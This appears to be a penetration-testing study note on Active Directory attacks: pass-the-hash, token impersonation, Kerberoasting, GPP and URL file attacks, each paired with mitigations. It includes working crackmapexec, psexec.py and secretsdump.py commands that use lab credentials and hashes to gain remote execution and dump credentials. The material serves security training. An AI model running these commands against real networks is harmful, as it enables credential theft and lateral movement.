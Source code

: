 

### Pass the Hash / Pass the Password

```
sudo apt install crackmapexec 

crackmapexec <IP/CIDR> -u <user> -d <domain> -p <password> 

crackmapexec smb <IP/CIDR> -u <user> -H <hash> --local-auth
```


```
psexec.py marvel/fcastle:Password1@<IP>

secretsdump.py marvel/fcastle:Password1@<IP>

psexec.py "frank castle":@<IP> -hashes LMHASH:LTHASH
```

---

#### Pass attacke mitigations

Hard to completely prevent, but we can make it more difficult on an attacker:
- Limit account re-use:
  - Avoid re-using local admin password
  - Disable Guest and Administrator accounts
  - Limit who is a local administrator (least privilege)
- Utilize strong passwords:
  - The longer the better (>14 characters)
  - Avoid using common words
  - I like long sentences
- Privilege Access Management (PAM)
  - Check out/in sensitive accounts when needed
  - Automatically rotate passwords on check out and check in
  - Limits pass attacks as hash/password is strong and constantly rotated

---

### Token Impersonation

What are tokens?
- Temporary keys that allow you access to a system/network without having to provide credentials each time you access a file. Think cookies for computers.

Two types:
- Delegate - Created for logging into a machine or using Remote Desktop
- Impersonate - "non-interactive" such as attaching a network drive or a domain logon script

https://www.offensive-security.com/metasploit-unleashed/fun-incognito/

#### Token Impersonation Mitigation

Mitigation Strategies:
- Limit user/group token creation permissions
- Account tiering
- Local admin restriction

---

### Kerberoasting 

https://medium.com/@Shorty420/kerberoasting-9108477279cc

#### Mitigation Strategies:
- Strong Passwords
- Least privilege

-----

### GPP Attacks 

#### Overview:
- Group Policy Preferences allowed admins to create policies using embedded credentials
- These credentials were encrypted and placed in a "cPassword"
- The key was accidentally released 
- Patched in MS14-025, but doesn't prevent previous uses

https://www.rapid7.com/blog/post/2016/07/27/pentesting-in-the-real-world-group-policy-pwnage/

### URL File Attacks

- https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#scf-and-url-file-attack-against-writeable-share







